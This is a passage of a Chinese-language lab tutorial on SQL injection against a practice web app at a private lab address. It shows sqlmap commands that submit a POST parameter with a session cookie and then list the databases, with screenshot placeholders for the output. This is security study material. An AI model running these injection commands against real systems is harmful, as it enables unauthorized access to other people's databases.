 

#### SQLMap

POST提交，直接放上相应的数据运行即可。

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_id.php" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --data "id=1&submit=%E6%9F%A5%E8%AF%A2" 
```

运行结果：

![image-20250225123618681](../../_media/image-20250225123618681.png)

后续就是一个流程了

获取库名：

```
python sqlmap.py -u "http://192.168.10.129/vul/sqli/sqli_id.php" --cookie="PHPSESSID=fbtqpmo4usbar76febqv2m3fug" --data "id=1&submit=%E6%9F%A5%E8%AF%A2" --dbs
```

![image-20250225123820307](../../_media/image-20250225123820307.png)


